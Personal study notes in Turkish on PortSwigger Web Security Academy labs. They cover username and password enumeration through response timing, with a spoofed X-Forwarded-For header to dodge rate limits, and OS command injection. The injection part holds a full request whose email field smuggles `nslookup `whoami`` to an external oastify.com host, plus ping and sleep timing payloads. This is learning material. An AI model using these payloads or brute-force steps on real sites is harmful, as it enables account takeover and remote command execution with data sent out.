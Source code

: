 # PORT SWIGGER NOTLARI


### LAB Notlarim:

__________________________________________
####  Username enumeration via response timing  [ Response timing ve response received ]

Burada oncelikle ```X-Forwarded-For:``` header i ekleyerek en alta ```0 - 600``` e kadar bir brute force ayarliyorum
ardindan parolayi bilerek yanlis yapiyorum ```testtttttttttttttttttt``` gibi bir parola koyuyorum.
username kismina ise wordlistimi ekleyerek pitchfork ile atagi baslatiyorum. receive ve response timing ile bakarak hani ilk bos bir sorgu gonderiyor
o sorgu senin kendi olusturdugun gercek bir hesabin dogru sifresi ve username i olsun. ondan referans almistim ben.

2054 olarak bos bir istek attiginda yani gercek giris yaptiginda bu sayi ile referansimizi aliyoruz.
username salidirisi bittigi zaman baktigimiz zaman bu 2 parametreye receive ve response timing e . 
Cok ama cok yakin bir deger goruoruz. username i bulmus olduk.
simdi ayni sekilde bu sefer parolaya ayni saldiriyi gerceklestiriyoruz.
saldiri bittiginde gordugumuz deger gercek degerdir.

_______________________________________________________________

### OS Command Injection 
```url
csrf=rNED41GCvbP8vgtXfK1rs4BGsTvbe11F&name=testerererere&email=tipybu%40cyclelove.cc||nslookup+`whoami`.oyqhkljtvxhzosoxlu4m9qtg87ey2n.oastify.com+#||&subject=testre&message=testssssss
```
Burada tirnak isareti farkli bunu unutma.
eng klavyede tab in usutndeki olacak whoami
bunun disinda `||ping+-c+10+127.0.0.1+||` bu 10 saniye falan bekletiyor guzel test. ama son lab da bekletmiyordu mesela. sadece su yukaridaki nslookup ve burp collabrator yaptigim kisimda tek bu yontem ise yaradi....
Ekstra olarak ping yerine `sleep 10` komutum da ise yaradi/
